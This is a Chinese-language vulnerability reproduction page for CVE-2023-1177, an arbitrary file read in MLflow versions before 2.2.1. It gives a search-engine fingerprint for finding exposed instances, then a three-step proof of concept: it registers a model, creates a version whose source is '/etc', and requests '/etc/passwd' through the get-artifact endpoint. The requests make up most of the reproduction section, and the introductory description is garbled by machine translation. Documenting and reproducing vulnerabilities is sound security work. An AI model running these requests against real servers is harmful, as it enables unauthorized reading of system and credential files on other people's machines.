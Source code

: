 # MLflow get-artifact 任意文件读取漏洞 CVE-2023-1177

# MLflow get-artifact 任意文件读取漏洞 CVE-2023-1177

## 漏洞描述

使用 MLflow 模型注册表托管 MLflow 开源项目的用户 mlflow server或者 mlflow ui使用早于 MLflow 2.2.1 的 MLflow 版本的命令如果不限制谁可以查询其服务器（例如，通过使用云 VPC、入站请求的 IP 白名单或身份验证 /授权中间件）。

此问题仅影响运行 mlflow server和 mlflow ui命令。 不使用的集成 mlflow server或者 mlflow ui不受影响； 例如，Azure Machine Learning 上的 Databricks Managed MLflow 产品和 MLflow 不使用这些命令，并且不会以任何方式受到这些漏洞的影响。

## 漏洞影响

```
MLflow < 2.2.1
```

## 网络测绘

```
app.name="MLflow"
```

## 漏洞复现

登陆页面

![image-20230417093814404](images/image-20230417093814404.png)

验证POC

```
POST /ajax-api/2.0/mlflow/registered-models/create
Content-Type: application/json

{"name": "testfile"}
```

![image-20230417093836998](images/image-20230417093836998.png)

```
POST /ajax-api/2.0/mlflow/model-versions/create
Content-Type: application/json

{"name": "testfile", "source": "/etc"}
```

![image-20230417093851779](images/image-20230417093851779.png)

```
/model-versions/get-artifact?path=passwd&name=testfile&version=1
```

![image-20230417093907298](images/image-20230417093907298.png)

